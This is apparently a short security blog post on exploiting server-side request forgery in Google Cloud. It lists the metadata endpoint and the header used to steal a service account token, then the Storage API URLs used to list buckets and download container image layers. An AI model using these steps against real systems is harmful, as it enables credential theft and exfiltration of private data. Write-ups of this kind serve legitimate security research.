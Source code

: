 ```yaml
---
layout: post
title:  "Google Cloud Bucket SSRF"
date:   2020-12-03 17:56:00
tags:   [SSRF]
---
```


## Description
This post contains about to leak image files from google cloud buckets when you can trigger SSRF and can handle request header.
<br/>
<br/>


## Metadata API
You must use `Metadata-Flavor: Google` header to access google metadata API.
```
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
<br/>
<br/>


## Google Cloud Bucket
You must access this endpoint with token that you leaked at the first step.
#### Get buckets
```
https://www.googleapis.com/storage/v1/b?project=(Project)
```

#### Get bucket's Object
```
https://www.googleapis.com/storage/v1/b/(Project)/o
```

#### Extracting Image
```
https://www.googleapis.com/download/storage/v1/b/(Project)/o/containers/images/(Hash)?generation=(Gen)&alt=media
```

#### Unarchive
When you extract one image object, you can get one piece of image in `Tar` file format.
